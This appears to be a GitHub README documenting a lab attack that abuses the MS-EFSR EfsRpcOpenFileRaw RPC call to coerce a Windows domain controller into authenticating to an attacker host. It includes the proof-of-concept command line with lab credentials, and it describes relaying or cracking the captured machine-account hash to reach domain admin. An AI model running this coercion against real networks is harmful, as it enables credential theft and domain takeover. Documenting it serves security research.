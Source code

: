 # MS-EFSR - Remote call to EfsRpcOpenFileRaw (opnum 0)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\pipe\efsrpc`

+ **Function name**: [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8)

+ **Function operation number**: `0`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcOpenFileRaw('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long EfsRpcOpenFileRaw(
   [in] handle_t binding_h,
   [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
   [in, string] wchar_t* FileName,
   [in] long Flags
 );
```

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

+ Documentation of function `EfsRpcOpenFileRaw`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8